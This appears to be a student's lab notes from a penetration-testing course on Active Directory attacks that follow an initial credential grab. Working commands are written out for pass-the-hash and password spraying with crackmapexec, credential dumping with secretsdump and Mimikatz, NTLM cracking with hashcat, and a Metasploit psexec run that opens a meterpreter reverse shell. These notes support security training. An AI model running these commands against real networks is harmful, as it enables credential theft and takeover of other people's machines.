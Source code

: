 Attacks covered in this section involve having some sort of credential first.
- Username & Password
- Shell on a machine

**Attacks:**
- Pass the hash
- Pass the password
- Token impersonation 
- Kerberoasting 
- GPP/cPassword attacks
	- https://www.hackingloops.com/gpp-cpassword-attack-the-tale-of-leaked-key/
- Golden Ticket attacks

### Pass the Password Pass the Hash

If we crack a password or can dump the SAM hashes, we can leverage both for lateral movement in networks.

Tools: crackmapexec

Use:
```sh
crackmapexec 10.0.3.0/24 -u fcastle -d MARVEL -p Password1
```

![](img/crackmap01.png)

```sh
crackmapexec <ip/CIDR> -u <username> -d <domain> -p <password>
```

Grab local hashes (metasploit)

![](img/crackmap02.png)

Pass the hash

```sh
crackmapexec <ip/CIDR> -u <username> -H <hash> --local
```

![](img/crackmap03.png)

You don't need to crack the password to pass the hash. 

Install crackmapexec
```sh
sudo apt install crackmapexec
```

View help screen
```sh
crackmapexec --help
```

**New Syntax for CrackMapExec**
```sh
crackmapexec smb <ip/CIDR> -u <username> -d <domain> -p <password> 
```
- It looks like you just need to add the smb part now

So for the lab we'd use
```sh
crackmapexec smb 10.0.3.0/24 -u fcastle -d MARVEL.local -p Password1
```

![](img/crackmap04.png)
_The smb part is not in this command, but make sure to use it_

Here what you're looking at is that crackmap has owned the spiderman account as it already knew about the punisher account (fcastle).

Trying to dump the SAM file, which doesn't always work:
```sh
crackmapexec smb 10.0.3.0/24 -u fcastle -d MARVEL.local -p Password1 --sam
```
- Other options to try and dump
	- lsa
	- ntds

**psexec**
```sh
psexec.py marvel/fcastle:Password1@10.0.3.5
```

We can also use the matasploit version to try and get a meterpreter session.

You want to avoid using this for password spraying because you could end up locking out the users if the have a failed login attempt policy in place. You can try that with a local account. Local accounts don't have the same lockout policy like domain accounts do.

**Small Note**
Don't be confused when the IPs are changing. The lecture must have had been done in two parts, or they were changed at some point during the course. Just use whatever your AD network is on, in my case it's the `10.0.3.0/24` network. 
### How to Dump Hashes

Previously, we discover that `.142` and `.141` have the same local admin account of Frank Castle.

Using secrets dump, which is also part of the impacket toolkit. 
```sh
secretsdump.py marvel/fcastle:Password1@192.168.57.141
```

![](img/secretsdump01.png)

This will also dump LSA secrets and the DPAPI key. We can copy the results from both secretsdump outputs and put them into a text editor. That way, we can see if the last part of the hash is the same which would indicate password reuse. 

We could also use this in a pass the hash attack or try and crack them. 

We are not interested in the default account, guest account, or the WDAGUtiliity account, so we can delete those from the test file that we pasted them into. We are only interested in the user and admin accounts. 

These hashes are NTLM. NTLM hashes are local hashes found in the SAM.We can move them into a text file on our host machine for cracking using hashcat.  

We can use grep to find the correct hash id:
```sh
haschcat -h | grep NTLM
```

Crack the passwords in the file
```sh
hashcat -m 1000 hashes.txt rockyou.txt -O
```
- If you see a blank password the account might have been disabled

**Pass the Hash**

You only need the last part of the hash which is the password and it starts after the `:`
**Another small update to the syntax as shown below.** This video is from 2023 so it could have changed again, so make sure to run a help command if something isn't working. 

Using crackmapexec:
```sh
crackmapexec smb 192.168.57.0/24 -u "Frank Castle" -H <hash> --local-auth
```

psexec.py can utilise hashes to gain a shell:
```sh
psexec.py "frank castle":@192.168.57.141 -hashes <full-hash>
```
- You can only use this on the machine that you have the hash for. If you tried it on `.142`, for example, it wouldn't work, and you would get a login failure. 
- This might require the SMB, but it didn't say so, so keep that in mind. ALways check the help menu. 

![](img/psecec01.png)

If this works you then run the hash command and try and get a shell.

**CyberArk**

A Domain Admin password management system that generates a very long password for you to use for 8 hours while at work. The next day the password will be changed to a different one. This is why going after the local admin accounts can be quite powerful.

---
### Mitigation 

![](img/pth01.png)

---
### Token Impersonation

![](img/token01.png)

![](img/token02.png)

![](img/token03.png)

![](img/token04.png)

This PowerShell script, Invoke-Mimikatz, is trying to dump hashes.

**What if a Domain Admin Token was Available?**

![](img/token05.png)

![](img/token06.png)

The `marvel\administrator`account is now available to us.

We try running `Invoke-Mimikatz`again, and it is successful this time!

![](img/token07.png)

This dumps all the hashes in the Network, including the Kerberos hash.

![](img/token08.png)

**How to Perform the Attack**

```sh
msfconsole
```

```sh
use exploit/windows/smb/psexec
```

```sh
options
```

```sh
set rhosts 192.168.57.141
```

```sh
set smbdomain marvel.local
```

```sh
set smbpass Password1
```

```sh
set smbuser fcastle
```

Native upload
```sh
show targets
```

```sh
set target 2
```

Check everything is entered correctly
```sh
options
```

Set payload
```sh
set payload windows/x64/meterpreter/reverse_tcp
```

```sh
set lhost eth0
```

```sh
run
```

This should get us a meterpreter session.

